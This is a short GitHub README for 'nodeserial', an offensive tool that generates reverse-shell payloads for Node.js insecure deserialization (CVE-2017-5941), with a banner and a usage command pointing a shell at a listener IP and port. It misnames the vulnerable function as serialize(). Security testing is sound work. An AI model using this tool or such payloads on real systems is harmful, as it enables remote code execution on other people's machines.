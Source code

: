 # nodeserial 
## Explore Insecure Deserialization in nodejs

Per CVE-2017-5941, the vulnerability occurs when untrusted data is passed to a serialize() function, resulting in remote code execution passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

This tool was made to automate this process, generating a payload for reverse shell, have fun exploring nodejs deserialization in vulnerable applications.

```
                 _                     _       _ 
                | |                   (_)     | |
 _ __   ___   __| | ___  ___  ___ _ __ _  __ _| |
| '_ \ / _ \ / _` |/ _ \/ __|/ _ \ '__| |/ _` | |
| | | | (_) | (_| |  __/\__ \  __/ |  | | (_| | |
|_| |_|\___/ \__,_|\___||___/\___|_|  |_|\__,_|_|
```
`Usage: python3 nodeserial.py -l 10.9.8.16 -p 443 --params username -e b64`
